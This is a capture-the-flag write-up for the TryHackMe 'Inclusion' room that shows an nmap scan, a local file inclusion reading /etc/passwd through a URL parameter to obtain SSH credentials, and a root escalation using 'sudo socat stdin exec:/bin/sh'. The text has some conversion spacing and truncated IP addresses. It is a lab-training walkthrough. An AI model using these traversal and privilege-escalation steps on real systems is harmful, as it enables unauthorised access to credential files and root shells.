








# Inclusion

This is a writeup for THM room: Inclusion
https://tryhackme.com/room/inclusion

# Scanning the Machine

First, lets scan the room to see what ports that is open to us using
Nmap.

```
nmap -A -oA nmap_result 10.10.218.
```
Command breakdown:

- A: tell nmap to do an extensive scan on the server.
- oA: output the result to a file, which in this case is “nmap_result”

Execute the command, then we get this:

```
Starting Nmap 7.91 ( https :// nmap.org ) at 2021-08-
04 : 37 UTC
Nmap scan report for 10 .10.218.83 (10.10.218.83)
Host is up (0.37s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.
(Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:
(RSA)
| 256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:
(ECDSA)
|_ 256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a
(ED25519)
80/tcp open http Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```
Service detection performed. Please report any incorrect
results at https://nmap.org/submit/.
```

```
Nmap done: 1 IP address (1 host up) scanned in 38.
seconds
```
now we know that there are SSH and Webserver that is running on
the machine. Since we don't know the credentials for SSH, let's first
access the server to see what we can find.

# Accessing the webserver

Accessing the server from the browser, we are greeted with this
page.


Nothing interesting to look at, but we can try to access these
different articles, to see if we can find anything particular.


Well, there's nothing weird in the page itself but take a closer look at
the url bar in your browser.


for a brief explanation, the “name” variable is pointing to a file
called “hacking”, which is the name of the article that I accessed
currently. What makes it interesting is that we can do a local file
inclusion here by replacing the filename with this “../
<folder_or_file>”, so what this string do?. To breakdown, the double
dot (..) is used to move back from the current folder, then followed
by slash (/) to signal if we want to access a file or open a folder.

Since we don't know what files contain in the parent folder, let's try
to move back to root and access the passwd file in /etc/passwd to
find any information that we can use. To do that, simply replace the
article name in the url bar with this string:

```
.. / .. / .. / .. / etc /passwd
```
The page will then change, displaying this:


Username and the password is in the last line besides the hashtag.

# Connect to ssh

With the credentials at hand, we can try to connect to the machine
through SSH. Simply type this in the terminal:

```
ssh falconfeast@10.10.218.
```
It then prompts for password, after inputing it, then we have access
to the system


ls the current location will show the files that holds the user's flag.

Got it. Now onto the final flag

# Getting the root

To get the root flag, we can try to sudo cat to /root/root.txt and use
the password that we get earlier on to connect to SSH. But can we
do it successfully?.

```
sudo cat / root / root.txt
```

Turns out, we can't since the current user is not allowed to execute
the cat command as root based on the image above. So what 
command that is able to run as root by falconfeast?, let's check it
with this command:

```
sudo -l
```
Command Breakdown:
-l: used to list all the commands that is allowed to run as root for the
current user.


It looks like the only the command allowed to run as root is socat,
and without asking for password. This is great, we can use this to
elevate our privilege. To do that, type this:

```
sudo socat stdin exec :/ bin /sh
```
Now it might look like it freezes at first because theres nothing that
signify if the command works. But it actually runs successfully,
because it returns something if we execute any command. But first,
let's type whoami, to see who we are right now.

```
whoami
```

Alright let's just go straight to the last flag.

```
cat / root / root.txt
```

And we're done


